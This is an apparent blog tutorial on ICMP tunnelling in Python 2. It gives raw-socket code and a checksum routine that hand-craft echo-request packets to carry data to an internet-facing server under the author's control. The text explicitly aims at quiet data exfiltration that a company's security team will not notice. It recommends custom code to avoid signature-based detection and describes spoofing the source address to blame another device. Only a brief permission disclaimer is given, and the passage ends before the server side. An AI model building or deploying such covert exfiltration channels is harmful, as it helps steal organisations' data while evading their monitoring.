

NOTE: I tested this on a Linux (Ubuntu) system using Python 2.7.12, I'd suggest you do
the same. Conversions can be made very easily if you'd like to use another version of Python. If you use a
different OS you may get some errors with the socket creation, however that can be fixed with a quick Google
search (plug in the error number you get and go).
Ever been in a situation where your outbound network traffic has been blocked? For example at a hotel or coffee shop
wifi access point where they require you to log in to use the internet? These systems can be annoying or intrusive.
What if there was a way to side-step this process and tunnel out of the network? One such way to do this is through
ICMP Tunneling.
The process of tunneling revolves around using a non-traditional protocol to carry your traffic outside of the network.
There are many different forms of tunneling including DNS and ICMP. Besides being a helpful tool, hackers can use
these techniques to quietly exfiltrate data, without a company's security team noticing. One survey found that as many
as 46% of the sample companies have experienced DNS exfiltration within the last year alone! (source).
ICMP Data Exfiltration is a nice technique because it makes use of the ICMP (Internet Control Message Protocol) network
protocol, which is typically used for troubleshooting on a network. As a result, not many
organizations can afford the cost of shutting off this important protocol. In addition, not many organizations
recognize how it can be abused, and as a result they do not block outbound ICMP traffic.
The goal of this article is to explain the basics of how ICMP tunneling works, develop code to perform
exfiltration, and demonstrate how simple and easy it is. This should only be used in a controlled environment, and
should be run on systems that you own or have permission to use.
It should be noted that there are many pre-built solutions you can use such a Loki, or
icmptunnel. However
i'd like to show how can this can be done from scratch with relatively little effort. In addition, writing your own
code should help prevent being noticed by signature based detection. Alright, let's begin!
ICMP 101: Ping, Request, and Reply
If you have ever made use of ICMP before, it was likely through the "ping" tool on Windows or Linux. Ping allows you
to send some packets to a target (request) and recieve some packets back (reply). Typically when we ping a target,
we will send them some junk data, and they will send that junk back. Instead, what we will do is send crafted data
that we plan to exfiltrate out of the network. I'd encourage you to open a terminal (or Command Prompt) and ping your
localhost.
What does an ICMP packet look like?
The first goal of any project is to know what you're trying to build. In this instance we are trying to impersonate
ICMP requests. The easiest way to know what these packets look like is to set up Wireshark to listen to your
network traffic, and then use the "ping" command to ping your machine (localhost). Below I have a screenshot of
what a ICMP packet looks like.

There it is! A more astute reader may notice that there is no TCP or UDP header in the packet. This is because ICMP
uses a lower level protocol. As a result, this means that when we build our socket we will have to use something called
a "raw socket". The significance of this is that a raw socket, requires root or administrative priviledges to use.
Keep this in mind when running this code. You will have to run this as root (or admin). Notice on the right side of the
bottom panel that we can see some of the junk data that the ping tool naturally generates. Now that we know what the
packet looks like, lets open up our text editor of choice (Vim) and get to work. We will first build a socket with
some parameters with the following code.
import socket
import binascii as b
try:
sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_RAW)
except socket.error, msg:
print 'Error: ' + str(msg[0]) + 'Dont forget to sudo'
exit()
packet = b.unhexlify('')
dest = '127.0.0.1'
print packet
sock.sendto(packet,(dest,0))
sock.close()
Before continuting, lets take a moment to understand what this code is doing, first we import the socket and binascii
packages (more on this in a moment). Both of these packages should be shipped standard with any installation of Python.
Next we attempt to create a socket object called "sock" for us to interact with. Notice the try catch there? That is
because this program will need to be run with root priviledges. That try catch block will trigger if the socket
creation fails and will exit the application.
Next, we are creating the actual packet that we intend to send off. There are many different ways to craft a packet in
Python. Most developers would recommend the
Struct module. However
for the purposes of this article we are going to take a much more quick and dirty approach, literally dumping hex
strings into the packet. This is done using a helpful module called
"binascii".
What makes this module so useful is that using the "unhexlify" method, we can convert a hex string to binary and send that
across the network. The reason I like this method (aside from the fact that it's really cute) is that we can literally
copy and paste that hex value we got with Wireshark into our code and run it (The hex string is that middle block
of text in the picture above).
After you have pasted the hex string in the line: "packet = b.unhexlify('*PASTE HEX HERE*')", we then specify the
destination of our packet. For this field we are just using our localhost (127.0.0.1) for now. After that, we print
the contents of our packet to the console, and then send it. We send the packet using the "sendto" method from the
socket module. We specify the packet we would like to send, along with a tuple containing the destination IP address, as
well as the port. Due to the nature of how ICMP works, we don't need to specify a specific port, so 0 is fine. Finally
I close the socket at the end of the program.
Let's try this now. Open up Wireshark and listen to your local traffic. Then, run the code above as root and see what
you get. My output is pictured below.
Ta-da! We have successfully sent a ICMP request with no effort at all (which is why I prefer the manual hex packet
crafting over Struct in this case). In addition, you can see that our localhost has replied to our request with
an ICMP reply packet.
Our next step will be to modify this packet so that we can use it how we want to. There are some things we need to be
aware of. Now, it may be possible for this to work without changing any of the following depending on your setup. I
can't claim to be aware of how every system will react, or how it could be rigged to work this way. All I can say is that
by changing the follow aspects of these packets I was able to communicate with an internet facing server under my control
(more on this in a bit). I would highly encourage you to research and change the following things so that the system will
work. The following is a list of things you will need to modify.
Checksum
This is likely the most difficult part of the entire program. I hope you remember bitwise operators and some conversion
tricks. If not, I have some code for you. Suffer where I have not (it wasn't that bad, I just made a technical
miscalculation).
The most key thing to understand when calculating the checksum is that you are not calculating a checksum for the
entire packet you are sending, just the actual ICMP part of the packet. In my case, this can be found by identifying the
"08" (which identifies an echo ping request) in the hex string. I would recommend using Wireshark to find this as it
is very useful for learning the layout of a packet.
I'm sure there are packages out there to help you do this (couldn't find any but I only looked for a second), however I
have some code below that does the work and suites our needs because we take in a hex string. (You may want to look at this in landscape).
def checksum(line):
hold = 0
for i in range(0, len(line), 2):
word = ord(line[i]) + (ord(line[i+1]) << 8)
carry = hold + word
hold = (carry & 0xffff) + (carry >> 16)
toReturn = bin(~hold & 0xffff)[2:].zfill(16)
part1 = hex(int(toReturn[:8],2))[2:].zfill(2)
part2 = hex(int(toReturn[8:],2))[2:].zfill(2)
return part2+part1
As for what part of the hex string we send to the checksum function, lets look at an example. I have provided some
comments to help distinguish some parts of the string. (You may want to look at this in landscape).
packed = b.unhexlify("0800000055d70001" + data)
checkSum = checksum(packed)# This is local IP--V V--This is server IP
packet = b.unhexlify("450000548d9440004001af12" + "0a8773f8" + "8ac54bc5" + "0800" + checkSum + "55d70001" + data)
This is where the checksum string starts--^ ^--packet identifier
Now for the explanation of the checksum string. This is identified by the "packed" variable. As mentioned earlier
the first two characters, "08" is the echo ping request. Following that is "00" which is the "code" part of the packet.
Following that is four 0's, "0000". This is the checksum itself (Yes, you need to calculate the checksum using a
placeholder checksum). This placeholder is just "0000". Then we have "55d70001". This is just an identifier and a
sequence number. The final part of the hex string is the actual data that we want to send to our server outside the
network. This should be in hex format before it is run through our checksum function.
After that, you have to actually build the packet. I've added some annotations through comments so that
you can see how the packet is built. It would likly be best for you to plug in your own values from your Wireshark
testing.
Source Address
Depending on your setup you can change the "source address" field of the packet. I've tested this and it works on my
home network, while still delivering the packets to my controlled server. Why would you do this? In theory you could
spoof an IP, or attempt to pin the exfiltration on another device on the network (although I don't know how well this
could fool someone. I was getting a ton of arp requests when I claimed to be a device that doesn't exist). Because you
are just testing this for fun and education, put your actual IP (not your internet
facing IP, your devices actual network IP. It probably starts with 192 or 10).
Server: Digital Ocean
I am completely aware that this tutorial could have been done entirely on my home network (it also could have been about
one tenth as long, but I wanted to be as thorough as possible). However, I wanted to show what this would look like in a
real world scenario, as well as prove that it works. To accomplish this goal, I have a Digital Ocean Droplet set up on
a fixed IP address. If you're not familiar with Digital Ocean, its an IaaS provider, similar to AWS. I like it because
it's cheap ($0.007/hour I'm not joking) and it's easy to get up and running (click a button and go). This setup I have
for testing is a Ubuntu 16.04, 64bit system. It's internet facing and I can connect to it over the internet.